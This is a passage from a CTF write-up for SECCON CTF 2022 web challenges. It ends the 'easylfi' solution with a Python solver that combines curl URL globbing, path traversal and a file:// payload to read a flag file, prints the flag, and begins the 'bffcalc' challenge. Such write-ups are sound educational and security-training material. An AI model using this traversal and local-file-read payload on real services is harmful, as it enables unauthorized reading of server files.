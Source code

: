 `"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}"` → `""`:
```
... snip ...
<body>
  <h1>Hello, }{real_flag}
```

### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])
```

### Flag

```
SECCON{i_lik3_fe4ture_of_copy_aS_cur1_in_br0wser}
```

## [web] bffcalc

- 41 teams solved / 149 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/web/bffcalc

Description:

> There is a simple calculator!
>
> - `http://bffcalc.seccon.games:3000`

### Overview

This web service is a simple calculator:

![](/images/2022/20221118-seccon-bffcalc-01.png)

`docker-copmose.yml`:
```yaml
version: "3"

services:
  nginx:
    build: ./nginx
    restart: always
    ports:
      - "3000:3000"
  bff:
    build: ./bff
    restart: always
  backend:
    build: ./backend
    restart: always
```

[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.